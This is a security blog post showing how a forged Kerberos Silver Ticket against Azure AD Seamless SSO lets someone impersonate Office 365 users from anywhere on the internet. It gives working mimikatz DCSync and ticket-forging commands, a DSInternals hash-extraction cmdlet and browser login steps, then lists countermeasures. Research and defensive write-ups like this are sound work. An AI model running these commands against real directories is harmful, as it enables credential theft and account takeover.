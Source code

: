 ﻿---
ref: impersonating
title: Impersonating Office 365 Users With&nbsp;Mimikatz
date: 2017-01-15T19:35:43+00:00
layout: post
lang: en
image: /assets/images/aad_sso2.png
permalink: /en/impersonating-office-365-users-mimikatz/
tags:
    - 'Active Directory'
    - 'Microsoft Azure'
    - Mimikatz
    - 'Office 365'
    - Security
---

Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called [Single Sign On](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso). It&nbsp;allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy [ADFS](https://learn.microsoft.com/en-us/windows-server/identity/active-directory-federation-services), which&nbsp;makes it&nbsp;an&nbsp;ideal solution for&nbsp;SMEs. Here is&nbsp;a&nbsp;high-level diagram of&nbsp;this&nbsp;functionality:

![Azure AD Connect SSO Diagram](../../assets/images/aad_sso4.png)

As we can see from&nbsp;the&nbsp;diagram above, Azure AD exposes a&nbsp;[publicly available endpoint](https://autologon.microsoftazuread-sso.com) that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are&nbsp;understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever&nbsp;you have Kerberos-based authentication, it&nbsp;can be&nbsp;attacked using [Silver Tickets](https://adsecurity.org/?p=2011).

In&nbsp;usual circumstances this&nbsp;attack can only be&nbsp;performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the&nbsp;fact that&nbsp;with&nbsp;this&nbsp;new SSO feature, **Silver Tickets could be&nbsp;used from&nbsp;the&nbsp;entire internet**. Let’s give it&nbsp;a&nbsp;try then!

<!--more-->

## The&nbsp;Nasty Stuff

To&nbsp;test this&nbsp;technique, we need to&nbsp;retrieve some&nbsp;information from&nbsp;Active Directory first:

1. NTLM password hash of&nbsp;the&nbsp;[AZUREADSSOACC$](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works) account, e.g. *f9969e088b2c13d93833d0ce436c76dd*. This&nbsp;value can be&nbsp;retrieved from&nbsp;AD using [mimikatz](https://github.com/gentilkiwi/mimikatz):

    ```bat
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

    My own [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) could do&nbsp;the&nbsp;same job:
    
    ```powershell
    Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
    -Server lon-dc1.contoso.local
    ```
    
    Both of&nbsp;these commands need *Domain Admins* permissions.

2. Name of&nbsp;the&nbsp;AD domain, e.g. *contoso.local*.
3. AAD logon name of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. elrond@contoso.com. This&nbsp;is&nbsp;typically either his&nbsp;*userPrincipalName* or&nbsp;*mail* attribute from&nbsp;the&nbsp;on-prem AD.
4. SID of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. *S-1-5-21-2121516926-2695913149-3163778339-1234*.

Having this&nbsp;information we can now&nbsp;create and&nbsp;use the&nbsp;Silver Ticket on any Windows computer connected to&nbsp;the&nbsp;internet. It&nbsp;does not even&nbsp;matter whether&nbsp;it&nbsp;is&nbsp;joined to&nbsp;a&nbsp;domain or&nbsp;a&nbsp;workgroup:

1. Create the&nbsp;Silver Ticket and&nbsp;inject it&nbsp;into Kerberos cache:

    ```bat
    mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
        
    ![Mimikatz Silver Ticket Screenshot](../../assets/images/aad_sso3.png)

2. Launch *Mozilla Firefox*.
3. Go to&nbsp;`about:config` and&nbsp;set the&nbsp;[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to&nbsp;[value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) “https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com”.
4. Navigate to&nbsp;any web application that&nbsp;is&nbsp;integrated with&nbsp;our AAD domain. We will use [Office 365](https://portal.office.com), which&nbsp;is&nbsp;the&nbsp;most commonly used one.
5. Once&nbsp;at the&nbsp;logon screen, fill in&nbsp;the&nbsp;user name, while&nbsp;leaving the&nbsp;password field empty. Then press TAB or&nbsp;ENTER.

    ![Office 365 Sing-In Screen](../../assets/images/aad_sso1.png)

6. That’s it, we’re in!

    ![Office 365 Home](../../assets/images/aad_sso2.png)

7. To&nbsp;log in&nbsp;as&nbsp;another user, run the&nbsp;command below and&nbsp;repeat steps 1-6.

    ```bat
    klist purge
    ```

It is&nbsp;also worth noting that&nbsp;the&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC$* account never changes, so&nbsp;the&nbsp;stolen hash/key will work forever. It&nbsp;could therefore be&nbsp;misused by&nbsp;highly privileged employees to&nbsp;retain access to&nbsp;the&nbsp;IT&nbsp;environment after&nbsp;leaving the&nbsp;company. Dealing with&nbsp;such situations is&nbsp;a&nbsp;much broader problem, which&nbsp;is&nbsp;aptly depicted by&nbsp;the&nbsp;following old Narnian saying:

![Once a&nbsp;Domain Admin, always a&nbsp;Domain Admin](../../assets/images/narnia.png)

## Countermeasures

First of&nbsp;all, I&nbsp;have to&nbsp;point out that&nbsp;this&nbsp;technique would not be&nbsp;very practical in&nbsp;real-world situations due to&nbsp;these reasons:

- The&nbsp;SSO feature is&nbsp;in&nbsp;Preview and&nbsp;has to&nbsp;be&nbsp;explicitly enabled by&nbsp;an&nbsp;AD admin. Just a&nbsp;handful of&nbsp;companies probably use it&nbsp;at the&nbsp;time of&nbsp;writing this&nbsp;article and&nbsp;enterprises will quite surely stick to&nbsp;their proven ADFS deployments even&nbsp;after&nbsp;this&nbsp;feature reaches GA.
- The&nbsp;hash/key of&nbsp;the&nbsp;*AZUREADSSOACC$* account can only be&nbsp;retrieved by&nbsp;Domain Admins from&nbsp;DCs by&nbsp;default. But&nbsp;if&nbsp;an&nbsp;attacker had such highly privileged access to&nbsp;an&nbsp;Active Directory domain, he/she would be&nbsp;able to&nbsp;do&nbsp;some&nbsp;way nastier stuff than&nbsp;just replicating a&nbsp;single hash.
- The&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC$* account is&nbsp;randomly generated during the&nbsp;deployment of&nbsp;*Azure AD Connect*. It&nbsp;would therefore be&nbsp;impossible to&nbsp;guess this&nbsp;password.

As&nbsp;you can see, there is&nbsp;simply no need to&nbsp;panic. But&nbsp;just to&nbsp;be&nbsp;safe, I&nbsp;would recommend these generic security measures:

- Only delegate administrative access to&nbsp;trusted individuals and&nbsp;keep the&nbsp;number of&nbsp;members of&nbsp;the&nbsp;*Domain Admins* group (and other privileged groups) as&nbsp;low as&nbsp;possible.
- Protect backups of&nbsp;Domain Controllers, so&nbsp;no-one could [extract sensitive information](/en/dumping-ntds-dit-files-using-powershell/) from&nbsp;them.
- Enable and&nbsp;enforce [Azure MFA](https://docs.microsoft.com/en-us/azure/multi-factor-authentication/multi-factor-authentication) for&nbsp;users authenticating from&nbsp;external IP addresses. It&nbsp;is&nbsp;very straightforward and&nbsp;effective against many kinds of&nbsp;attacks.
- Consider implementing [Azure AD conditional access](https://docs.microsoft.com/cs-cz/azure/active-directory/active-directory-conditional-access).
- Deploy [Microsoft Defender for&nbsp;Identity](https://www.microsoft.com/en-us/cloud-platform/advanced-threat-analytics) to&nbsp;detect malicious replication and&nbsp;other threats to&nbsp;your AD infrastructure.  
- Force a&nbsp;password change on the&nbsp;*AZUREADSSOACC$* account by&nbsp;<del>re-deploying Azure AD Connect SSO</del> [running the&nbsp;Update-AzureSSOForest cmdlet](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso-faq#how-can-i-roll-over-the-kerberos-decryption-key-of-the-azureadssoacc-computer-account) after&nbsp;a&nbsp;highly privileged employee leaves the&nbsp;company and/or on a&nbsp;regular basis. This&nbsp;should be&nbsp;done together with&nbsp;resetting the&nbsp;password of&nbsp;*krbtgt* and&nbsp;other sensitive accounts.

## Conclusion

Although&nbsp;the&nbsp;Silver Ticket attack has been here for&nbsp;some&nbsp;years, it&nbsp;is&nbsp;now&nbsp;probably the&nbsp;first time it&nbsp;can be&nbsp;used over the&nbsp;internet against a&nbsp;cloud service, which&nbsp;theoretically makes it&nbsp;even&nbsp;more potent. On the&nbsp;other hand, it&nbsp;would be&nbsp;quite hard to  perform this&nbsp;technique in&nbsp;a&nbsp;real-world environment due to&nbsp;impracticalities discussed in&nbsp;the&nbsp;previous section, so&nbsp;there is&nbsp;no need to&nbsp;worry. The&nbsp;new Seamless SSO feature of&nbsp;Azure AD Connect can therefore be&nbsp;considered safe and&nbsp;preferred solution for&nbsp;SSO to&nbsp;Office 365.
